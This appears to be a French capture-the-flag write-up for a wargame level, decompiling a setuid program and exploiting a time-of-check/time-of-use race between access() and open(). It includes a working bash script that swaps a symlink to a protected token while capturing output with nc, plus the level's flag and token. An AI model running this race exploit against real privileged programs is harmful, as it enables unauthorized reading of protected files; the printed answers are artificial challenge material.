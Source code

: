 # level10

### Observations

##### Je decompile le programme '~/level10':
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	int				*v3;
	char			*v4;
	const char		*v6;
	const char		*v7;
	int				v8;
	int				v9;
	size_t			v10;
	char			buf[4096];
	struct sockaddr	addr;
	unsigned int	v13;

	v13 = __readgsdword(0x14u);
	if ( argc <= 2 )
	{
		printf("%s file host\n\tsends file to host if you have access to it\n", *argv);
		exit(1);
	}
	v6 = argv[1];
	v7 = argv[2];
	if ( access(v6, 4) )
		return printf("You don't have access to %s\n", v6);
	printf("Connecting to %s:6969 .. ", v7);
	fflush(stdout);
	v8 = socket(2, 1, 0);
	*(_DWORD *)&addr.sa_data[6] = 0;
	*(_DWORD *)&addr.sa_data[10] = 0;
	addr.sa_family = 2;
	*(_DWORD *)&addr.sa_data[2] = inet_addr(v7);
	*(_WORD *)addr.sa_data = htons(0x1B39u);
	if ( connect(v8, &addr, 0x10u) == -1 )
	{
		printf("Unable to connect to host %s\n", v7);
		exit(1);
	}
	if ( write(v8, ".*( )*.\n", 8u) == -1 )
	{
		printf("Unable to write banner to host %s\n", v7);
		exit(1);
	}
	printf("Connected!\nSending file .. ");
	fflush(stdout);
	v9 = open(v6, 0);
	if ( v9 == -1 )
	{
		puts("Damn. Unable to open file");
		exit(1);
	}
	v10 = read(v9, buf, 0x1000u);
	if ( v10 == -1 )
	{
		v3 = __errno_location();
		v4 = strerror(*v3);
		printf("Unable to read from file: %s\n", v4);
		exit(1);
	}
	write(v8, buf, v10);
	return puts("wrote file!");
}
```

##### Details du programme:
```bash
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
```

##### Entrees du programme:
```c
char *chemin_fichier
char *addresse_ip
```

##### Fonctionnement:
Le programme verifie si le chemin_fichier est accessible par l'utilisateur a l'aide de la fonction access. \
Puis se connecte a un serveur avec addresse_ip pour par la suite ouvrir le fichier avec la fonction open.

> Le serveur est heberge sur le port '6969'.

##### Conclusions:
L'ordre d'execution des fonctions cree une faille qui nous permet de 
modifier le fichier pointant a la fin du chemin_fichier pendant la connection.
Cette operation leurre la fonction open sur le fait que nous avons les \
droits sur ce fichier du au fait que la fonction access retient les drois d'ouverture.

### Resolution
Je cree un script qui effectue trois operations distinctes en parallele.

La premiere consiste en une boucle qui cree un lien symbolique vers un fichier accessible par l'utilisateur \
pour ensuite le modifier pour pointer vers le fichier ou le token est stocke dans la racine HOME.

La seconde est composee d'une boucle qui execute le programme '~/level10' tout en pointant sur le lien symbolique cree et modifie par la boucle de l'operation precedente.

La derniere est une simple boucle qui recupere les donnees circulant sur le port reseau 6969 et affiche le resultat quand ce n'est pas le contenu du fichier accessible (soit l'executable '~/level10').

Il ne me reste plus qu'a lui donner les droits d'execution et de l'executer pour avoir mon flag.


##### /tmp/script.sh :
```bash
#! /bin/bash

rm -rf /tmp/done

link_breaker()
{
	while [ ! -f "/tmp/done" ];
	do
		ln -nsf /home/user/level10/level10 /tmp/link
		ln -nsf /home/user/level10/token /tmp/link
	done
}

listen_to_serv()
{
	while [ ! -f "/tmp/done" ];
	do
		TOK="$(nc -ln 6969)"
		[[ "$TOK" !=  *ELF* ]] && echo "$TOK" && touch /tmp/done
	done
}

exec_loop()
{
	while [ ! -f "/tmp/done" ];
	do
		/home/user/level10/level10 /tmp/link "127.0.0.1" >/dev/null
	done
}

exec_loop&
listen_to_serv&
link_breaker&

wait

```

#### commandes:
```bash
chmod +x /tmp/script.sh
/tmp/script.sh
```

**flag :** woupa2yuojeeaaed06riuj63c

**token :** feulo4b72j7edeahuete3no7c
